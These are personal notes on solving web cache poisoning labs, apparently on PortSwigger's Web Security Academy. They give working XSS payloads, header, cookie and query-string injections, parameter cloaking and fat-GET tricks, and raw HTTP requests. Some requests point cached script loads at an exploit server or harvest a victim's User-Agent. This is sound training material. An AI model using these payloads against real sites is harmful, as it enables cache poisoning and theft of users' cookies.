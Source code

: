 # Web Cache Poisoning

## Unkeyed header
- Use param miner extension to find headers
  - Found that x-Forwarded-Host is reflected in the response
- Used this payload to exploit: `X-Forwarded-Host: "></script><script>alert(document.cookie)</script><script>`

## Unkeyed cookie
- Cookies are not in cache key 
  - Cache key = predefined request components
- Param miner found fehost cookie
- Used this payload to exploit: `Cookie: fehost=x")</script><script>alert(1)</script><script>`

## Multiple headers
- Param miner found X-Forwarded-Proto header
- If you use this it adds a redirect to a url that includes the web dir in the original request
- The website also allowed for X-Forwarded-Host which would change the link
- I sent this request to tracking.js:
```http
GET /resources/js/tracking.js HTTP/2Host: 0a5200060335f34b817d667700130056.web-security-academy.net
Cookie: session=CMTcrvpZEooQ7J39QXbx1HYOk8OlhNwC
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a5200060335f34b817d667700130056.web-security-academy.net/?%3Cscript%3Ealert(1)%3C/script%3E
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net
```
- and got this response:
```http
HTTP/2 302 Found
Location: https://exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 0
```
- The X-Cache: hit means that the new link was stored
- The payload on the exploit server was: `alert(document.cookie)`

## Unknown header
- Param miner found X-Host header
  - This edited the tracking.js link
  - Changed exploit server to: `/resources/js/tracking.js`
  - added the payload `alert(document.cookie)`
- This works for me, but no solve
- Found that the Vary header in the response is set to User-Agent
- The comments allowed for HTML so used: `<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`
  - This made the victim interact with the server
  - The victims User-Agent was in the access log
- Changed the User-Agent in Burp and resent the request

## Unkeyed query string
- You have to add the Origin header to test since it was a cache buster
  - You need a cache buster when you constantly get hits and no misses
- This solves the lab: `/?test=x'/><script>alert(1)</script><`

## Unkeyed query parameter
- utm parameter was Unkeyed
- This is the payload: `/?utm_content='/><script>alert(1)</script><`
- Again Origin was cache buster
- Take off Origin and click send until it appears

## Parameter cloaking
- utm parameter was allowed 
- The geolocate.js was using callback
- Used this to cloak the change in callback: `/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)`
  - Cloaking was needed to avoid the cache keys

## fat GET
- Found callback in geolocate.js
- Used this request to get the alert
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a26003f0429f29e803576e000d8002b.web-security-academy.net
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a26003f0429f29e803576e000d8002b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
```

## URL Normalization
- 404 error reflected url
- You had to poison and immediately send the url to the victim
- This was the url: https://0a44009203ac0bc18de49d8000e1004b.web-security-academy.net/x</p><script>alert(1)</script><p>
